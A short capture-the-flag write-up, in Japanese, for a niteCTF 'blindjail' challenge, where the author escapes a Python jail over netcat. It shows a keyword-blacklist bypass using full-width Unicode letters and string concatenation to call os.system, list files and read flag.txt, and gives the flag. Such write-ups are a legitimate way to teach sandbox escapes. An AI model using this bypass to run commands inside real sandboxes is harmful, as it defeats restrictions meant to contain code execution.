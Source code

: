 # blindjail:misc:50pts
There is no escape, sometimes going in blind makes other attributes stronger.  
`nc 34.100.177.188 1337`  

# Solution
ncでの接続先が渡される。  
```bash
$ nc 34.100.177.188 1337
-------------------------------------------------------------
 WELCOME TO THE BLINDJAIL
 --------------------------------------------------------
  fret not that you cannot see, fret that you cannot leave.
>>> print(1)
1
>>> __import__("os").system("ls")
 Nope,  import  is banned!
>>>
```
pythonのjailのようだが、importなどいくつかのブラックリストがある。  
このような場合、全角と文字列結合でバイパスする。  
```bash
$ nc 34.100.177.188 1337
-------------------------------------------------------------
 WELCOME TO THE BLINDJAIL
 --------------------------------------------------------
  fret not that you cannot see, fret that you cannot leave.
>>> __ｉｍｐｏｒｔ__("o"+"s").ｓｙｓｔｅｍ("ls")
flag.txt
main.py
>>> __ｉｍｐｏｒｔ__("o"+"s").ｓｙｓｔｅｍ("c"+"at f"+"lag.txt")
nitectf{sl1d3_0ver_th3se_4ttribut3s}
```
flagが得られた。  

## nitectf{sl1d3_0ver_th3se_4ttribut3s}